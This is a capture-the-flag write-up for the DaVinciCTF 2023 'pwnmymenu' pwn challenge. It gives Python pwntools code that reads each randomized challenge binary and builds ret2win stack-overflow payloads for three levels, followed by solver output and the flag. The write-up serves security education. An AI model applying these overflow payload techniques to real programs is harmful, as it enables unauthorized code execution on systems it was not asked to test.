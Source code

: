 # DaVinciCTF 2023 — Pwn Write-up : pwnmymenu


From Saturday, March 11 to Sunday, March 12, 2023, the DaVinci CTF was organized by the students of the Pôle Léonard de Vinci. Our team finished 10th overall out of 289 teams.

![](./data/dvinci.png)

Let’s go for a writeup of pwnmymenu, a pretty easy challenge in Pwn category.

Thanks to Valekoz for creating this challenge and to all DaVinciCode for managing this CTF!

```
Do you like automation ? Well, you will have to automate some ret2win in order to get the flag :)

nc pwn.dvc.tf 8890 
```

Files: [pwnmymenu.tgz](./pwnmymenu.tgz)

## Analysis

We were given the entire sources of the challenge (wich is kinda weird), so understanding what to exploit is pretty easy:
- We need to pwn "lvl1" 5 times
- "lvl2" 5 times
- and "lvl3" 10 times

For each level, it's a simple ret2win with the size of the stack randomized in a range between [1; 511]. For the level 2 and 3, 2 other random variables are introduced.

When we connect to the netcat, we get the base64 of the current challenge compiled.

```
$ nc pwn.dvc.tf 8890
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAEBFAAAAAAABAAAAAAAAAACA4AAAAAAAAAAAAAEAAOAAN
AEAAHwAeAAYAAAAEAAAAQAAAAAAAAABAAEAAAAAAAEAAQAAAAAAA2AIAAAAAAADYAgAAAAAAAAgA
<snip>
AAAAACAEAAAAAAAAHQAAABMAAAAIAAAAAAAAABgAAAAAAAAACQAAAAMAAAAAAAAAAAAAAAAAAAAA
AAAAsDQAAAAAAABKAgAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAABEAAAADAAAAAAAAAAAA
AAAAAAAAAAAAAPo2AAAAAAAAHwEAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAA=
aaaa
Enter your payload:
---------------------
---------------------
[+]    You failed exploiting my program ...
```

(Note that the IO is broken, the author probably forgot to flush the stdout when printing, so it makes everything a bit more annoying)

## Level 1

Basic ret2win, the only difficulty is to retrieve the size of the stack from the compiled binary. After the CTF, I saw that i could have used ELF.disasm from pwntools to have an easier way to retrieve the size of the stack. Anyway here's how I did it:

```python
e = ELF(f"level1.{n}", checksec=False)

vuln_func = e.sym["vuln"]
size = e.read(vuln_func+11, 2).hex()
if size[2] == "4":
	OFFSET = int(size[:2], 16)+8
else:
	size = size[2:] + size[:2]  # flemme de unpack
	OFFSET = int(size, 16)+8
```
In short: we go to the `vuln` function and look at the `sub rsp, 0x??` instruction at the function prologue. 
I'm curious on how the CPU knows the size of the instruction in order to know how to get the hex size, my dirty fix was to check if the next byte is "0x48" wich is the first byte of the next instruction. If so, I take the next 2 other bytes (max value is 511 so I just need 4 bytes, not all of them)

So here's the function that needs to be called 5 times:
```python
def payload_level1(n):
	e = ELF(f"level1.{n}", checksec=False)

	vuln_func = e.sym["vuln"]
	win_func = e.sym["win"]
	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8

	payload = b''.join([
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```

## Level 2

Same as level 1, except now we have to find the `menu` value and the `submenu`, menu is in [1; 6] and submenu in [a, b, c, d, e]

This time, I find the instruction `cmp` for both of the values and extract the random value here. And for the stack, I just re-used the same code for the level 1.
```python3
main_func = e.sym["main"]
submenu_func = e.sym["submenu"]
menu = e.read(main_func+75, 2)[1]
submenu = e.read(submenu_func+55, 2)[1]
```
Nothing special, here's the function:

```python
def payload_level2(n):
	e = ELF(f"level2.{n}", checksec=False)

	main_func = e.sym["main"]
	win_func = e.sym["win"]
	submenu_func = e.sym["submenu"]
	vuln_func = e.sym["vuln"]

	menu = e.read(main_func+75, 2)[1]
	
	submenu = e.read(submenu_func+55, 2)[1]

	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8
	
	payload = b''.join([
		chr(menu).encode("utf-8"),
		b"\n",
		chr(submenu).encode("utf-8"),
		b"\n",
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```

## Level 3

For this level, `menu` and `submenu` are longs, but at the end it's the exact same code as for level 2, I just had to change the offsets.

Here's the function:
```python
def payload_level3(n):
	e = ELF(f"level3.{n}", checksec=False)

	main_func = e.sym["main"]
	win_func = e.sym["win"]
	submenu_func = e.sym["submenu"]
	vuln_func = e.sym["vuln"]

	menu = e.read(main_func+78, 8)
	
	submenu = e.read(submenu_func+55, 8)
	
	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8

	payload = b''.join([
		menu,
		submenu,
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```


## Script solve

You can find my entire script [here](./solve.py). When putting everything together I had a lot of trouble with the IO, sometimes it flushes when i'm supposed to read the base64 of the binary I tried to manage it, but it was not really working. I just restarted the script until it didn't crashed instead of fixing it. (It also takes a lot of time because I had a hard time reading the base64 so I just did a `recvrepeat(2)`)

```
python3 solve.py
[+] Opening connection to pwn.dvc.tf on port 8890: Done
PWNING LVL 1
Reading file 0... Sending payload n°0
<snip>
Reading file 4... Sending payload n°4
PWING LVL 2
Reading file 0... Sending payload n°0
<snip>
Reading file 4... Sending payload n°4
PWNING LVL 3
Reading file 0... Sending payload n°0
<snip>
Reading file 9... Sending payload n°9
[*] Switching to interactive mode
Submenu:
Enter your payload:
---------------------
<snip
---------------------
[+]    Level 1 finished successfully !
---------------------
<snip>
---------------------
[+]    Level 2 finished successfully !
---------------------
---------------------
<snip>
---------------------
---------------------
[+]    Level 3 finished successfully !
[+]    Flag is: `dvCTF{w04h_y0u_d3f3473d_my_m3nu}`
[*] Got EOF while reading in interactive
```

Flag: `dvCTF{w04h_y0u_d3f3473d_my_m3nu}`